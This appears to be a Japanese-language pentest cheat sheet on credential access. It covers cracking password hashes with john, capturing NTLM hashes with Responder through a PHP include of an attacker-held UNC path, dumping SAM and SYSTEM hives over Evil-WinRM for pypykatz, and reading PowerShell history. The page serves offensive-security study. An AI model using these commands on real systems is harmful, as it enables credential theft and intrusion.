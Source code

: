 # 資格情報アクセス

## アプリケーションに含まれる情報
・.jarの情報はJD-GUIで見れる
    ・Spring Bootを使用していればapplication.propertiesで見れる


## パスワードハッシュ解析
DB等から取得したパスワードハッシュを復元することで、パスワードを使いまわしている場合に別システムに侵入できる

Hash Identinierでハッシュ値の形式を特定できる

```
hash-identifier
```

johnでパスワード解析できる
```
john --format=raw-sha512 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```
Kali Linuxであれば/user/share/wordlistsにrockyouの圧縮されたファイルがある。
formatで指定できる形式は以下を参照
https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

パスワード解析にはWebから使用できるCrackStationも便利
https://crackstation.net/

## NTLMハッシュの取得

### Responder
```
responder -I tun0
```
Responderを使用することで様々な通信を受けることができる
responderを起動した後、攻撃対象のWebアプリケーション等に対して外部のファイルを取得するように動かす
```
例：PHPでinclude(//<受けのIPアドレス>/somefile)を実行されるようCodeInjectionを行うなど
```
取得できたハッシュをjohnなどで解析する

### Windowsレジストリにアクセスできる場合
Windowsでレジストリにアクセスできる場合、以下の情報を集めると良い
* HKLM\SAM: ユーザーパスワードのNTLMv2 ハッシュを含む
* HKLM\security: キャッシュされたドメインレコード LSAシークレット/LSAキーを含む
* HKLM\system – 別名 SYSKEY: LSAシークレットやSAMデータベースを暗号化するために使用可能なキーを含む
hklm\systemとhklm\samからNTLMハッシュを取得できる

参考：
https://kb.offsec.nl/tools/framework/pypykatz/

(例) SeBackupPrivilege権限を持つ場合に、レジストリからNTLMハッシュを生成
何かしらのユーザ情報を使用してEvil-WinRMでシェルを取っており、ユーザがSeBackupPrivilege権限を持っている前提
```
*Evil-WinRM* PS C:\> reg save hklm\sam c:\Temp\sam
*Evil-WinRM* PS C:\> reg save hklm\system c:\Temp\system
```
でレジストリをコピー
```
*Evil-WinRM* PS C:\Temp> download sam
*Evil-WinRM* PS C:\Temp> download system
```
でファイルをダウンロードする。ダウンロードしたファイルを元にpypykatzを使用してNTLMハッシュを生成する
```
$ pypykatz registry --sam sam system
```

## デフォルトパスワードの使用
サービスごとのデフォルトパスワードでログインできないか試行する。

https://cirt.net/passwords

## Powershellの履歴取得
以下の場所からPowerShellのコマンド実行履歴を取得できる

```
type C:\Users\<ユーザ>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```
